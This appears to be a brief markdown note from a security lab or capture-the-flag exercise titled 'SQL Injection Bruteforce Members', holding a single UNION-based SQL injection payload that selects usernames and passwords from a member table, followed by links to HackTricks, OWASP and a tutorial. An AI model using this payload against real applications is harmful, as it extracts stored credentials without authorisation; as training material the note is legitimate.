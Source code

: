 # SQL Injection Bruteforce Members

5 UNION ALL SELECT username,password FROM Member_Brute_Force.db_default;#

## External Resources
https://book.hacktricks.xyz/pentesting-web/sql-injection
https://owasp.org/www-community/attacks/SQL_Injection
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
